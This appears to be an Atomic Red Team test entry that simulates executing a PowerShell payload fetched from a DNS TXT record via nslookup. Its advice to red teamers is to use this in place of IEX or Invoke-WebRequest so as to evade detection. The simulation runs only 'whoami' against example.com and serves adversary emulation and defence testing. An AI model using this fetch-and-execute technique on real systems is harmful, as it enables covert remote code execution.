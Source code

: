 




<br/>
<br/>

## Atomic Test #22 - Abuse Nslookup with DNS Records
Red teamer's avoid IEX and Invoke-WebRequest in your PowerShell commands. Instead, host a text record with a payload to compromise hosts.
[reference](https://twitter.com/jstrosch/status/1237382986557001729)

**Supported Platforms:** Windows


**auto_generated_guid:** 999bff6d-dc15-44c9-9f5c-e1051bfc86e1






#### Attack Commands: Run with `powershell`! 


```powershell
# creating a custom nslookup function that will indeed call nslookup but forces the result to be "whoami"
# this would not be part of a real attack but helpful for this simulation
function nslookup  { &"$env:windir\system32\nslookup.exe" @args | Out-Null; @("","whoami")}
powershell .(nslookup -q=txt example.com 8.8.8.8)[-1]
```






<br/>
